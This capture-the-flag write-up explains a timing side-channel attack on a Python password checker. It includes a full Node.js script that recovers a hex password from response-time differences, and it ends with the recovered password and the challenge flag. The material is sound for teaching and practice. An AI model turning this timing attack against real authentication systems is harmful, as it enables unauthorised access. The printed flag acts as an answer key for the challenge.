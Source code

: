 # Time will tell

Difficaulty: `Medium`  
Author: `@aenygma`  
Category: `Miscellaneous`  
Points: `241`

## Description

A side channel timing attack.
Figure out the password in 90 seconds before connection terminates.
The password is dynamic and changes every connection session.

NOTE, the password is eight characters long and will be hexadecimal.

**Attachments:** [app.py](./attachments/app.py)

## Solution

As description says, **"a side channel timing attack"**.

Just look at the source code and find where the time is being consumed.

```python
SIMULATE_COMPUTE_TIME = 0.1

def check_guess(guess, realdeal) -> bool:
    """
    validate if the given guess matches what's known
    """
    if len(guess) != len(realdeal):
        #print(len(guess), len(realdeal))
        return False
    do_heavy_compute()
    for idx in range(len(guess)):
        if guess[idx] == realdeal[idx]:
            do_heavy_compute()
        else:
            return False
    return True

def main():
    ...
    while True:
        guess = input(": ")
        if check_guess(guess, secret_password):
            flag = read_flag()
            print(f"Well done! Here's your flag: {flag}")
            continue
        print("Incorrect. Try again.")
```

The `check_guess` function is the one that is consuming time.
It will doing heavy computation **when guess password length is equal to the real password length** and, havier **when each character of the guess password is equal to the real password**.

We can measure response time for each character and take the character which is taking more time to respond. This way we can find the correct password.

This is my script used to solve the challenge.

```javascript
const net = require('net')

const HEX_CHARS = '0123456789abcdef'
const PASSWORD_LENGTH = 8

let startTime = undefined
let currentIndex = 0

// guess password array [0, 0, 0, 0, 0, 0, 0, 0]
const password = new Array(PASSWORD_LENGTH).fill('0')

// I just too lazy to join the array every time
const getPassword = () => password.join('')

// Defined haviest compute object to store the heaviest compute time and the character
const haviestCompute = {
  time: 0,
  char: ''
}

const client = net.createConnection({
  host: '' // Host,
  port: 0 // Port
})

client.on('data', (data) => {
  postProcess()
  const text = data.toString().trim()
  console.log(text)
  if (/flag\{[0-9a-f]{32}\}/.test(text) || currentIndex >= PASSWORD_LENGTH) {
    return client.end()
  }
  // Send password to server with start measuring the time
  client.write(getPassword() + '\n', start)
})

// Function to post process the response
function postProcess() {
  if (startTime) {
    //  Get the time taken to compute the response
    const timeMs = end()

    console.log(getPassword(), 'Time:', timeMs, 'ms')

    //  Check if the time taken is greater than the heaviest compute time
    if (timeMs > haviestCompute.time) {
      // if yes, update the heaviest compute time and the character
      haviestCompute.time = timeMs
      haviestCompute.char = password[currentIndex]
    }

    // Defined the next index of hex character
    const nextCharIndex = HEX_CHARS.indexOf(password[currentIndex]) + 1

    //  Update the password
    password[currentIndex] = HEX_CHARS[nextCharIndex]

    //  Check if we have reached the end of the hex characters
    if (nextCharIndex >= HEX_CHARS.length) {
      //  Reset all values for new password index
      password[currentIndex] = haviestCompute.char
      haviestCompute.time = 0
      haviestCompute.char = ''
      currentIndex++
    }
  }
}

// Function to start the process time measurement
function start() {
  startTime = process.hrtime()
}

// Function to end the process time measurement
function end() {
  const diff = process.hrtime(startTime)
  return (diff[0] * 1e9 + diff[1]) / 1e6
}
```

When we run the script and print response time for each guessing character, we will see that there is a character that takes more time to respond than the others.

![runscript](./images/image.png)  
And, if the time taken to compute the response is increasing as we move forward, we are on the right track.

![solved](./images/image-2.png)

Finally, we get our real password with flag.  
Password: `06b0a59a` **_(Only for this session)_**

## Flag

```txt
flag{ab6962e29ed608c0710dbf2910f358d5}
```
